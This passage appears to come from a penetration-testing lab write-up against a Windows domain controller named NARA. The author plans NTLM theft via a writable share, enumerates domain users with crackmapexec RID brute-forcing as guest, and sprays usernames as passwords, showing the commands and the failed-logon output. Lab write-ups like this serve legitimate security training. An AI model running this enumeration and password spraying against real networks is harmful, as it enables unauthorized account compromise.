 ```bash
Remember, staying informed and acting promptly ensures that projects progress seamlessly, contracts get executed on time, and the company as a whole operates efficiently. Your cooperation in this matter is greatly appreciated and contributes to our collective success.

Thank you for your attention to this matter, and if you have any concerns or suggestions to improve our document management process, please share them with your department head or the HR team.
```

> This text literally gave me the hint that we can actually place files in the `nara` share, You know what i am thinking ??..........NTLM Theft 😈.

- First of all i tried to enumerate users using the RID brute technique since we have `READ` access on the “Remote `IPC`” share.

```bash
❯ cme smb 192.168.209.30 -u guest -p "" --rid-brute | grep -i sidtypeuser | awk -F'\' '{print $2}' | cut -d '(' -f1 >> users.txt

❯ \cat users.txt
Administrator 
Guest 
krbtgt 
NARA$ 
Amelia.O'Brien 
Damian.Johnson 
Helen.Robinson 
Sara.O'Sullivan 
Jasmine.Roberts 
Declan.Reynolds 
Jodie.Summers 
Carolyn.Hill 
Jemma.Humphries 
Tracy.White
```

- Then as usual tried to try usernames as password, I mean leaving no stone un-turned, This is Offsec 😭🤲.

```bash
❯ cme smb 192.168.209.30 -u users.txt -p users.txt --no-bruteforce --continue-on-success

SMB         192.168.209.30  445    NARA             [*] Windows 10.0 Build 20348 x64 (name:NARA) (domain:nara-security.com) (signing:True) (SMBv1:False)
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Administrator:Administrator STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Guest:Guest STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\krbtgt:krbtgt STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\NARA$:NARA$ STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Amelia.O'Brien:Amelia.O'Brien STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Damian.Johnson:Damian.Johnson STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Helen.Robinson:Helen.Robinson STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Sara.O'Sullivan:Sara.O'Sullivan STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Jasmine.Roberts:Jasmine.Roberts STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Declan.Reynolds:Declan.Reynolds STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Jodie.Summers:Jodie.Summers STATUS_LOGON_FAILURE 
```